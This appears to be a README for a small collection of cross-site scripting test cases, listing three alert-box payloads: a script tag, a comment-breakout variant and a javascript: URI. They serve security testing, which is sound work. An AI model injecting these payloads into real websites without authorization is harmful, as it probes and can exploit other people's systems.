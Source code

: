 # xss-test-cases

These are some XSS test cases I've developed.


Case 1 Payload

    <script>alert(1)</script>

Case 2 Payload

    --><script>alert(1)</script>

Case 3 Payload

    javascript:alert(1);


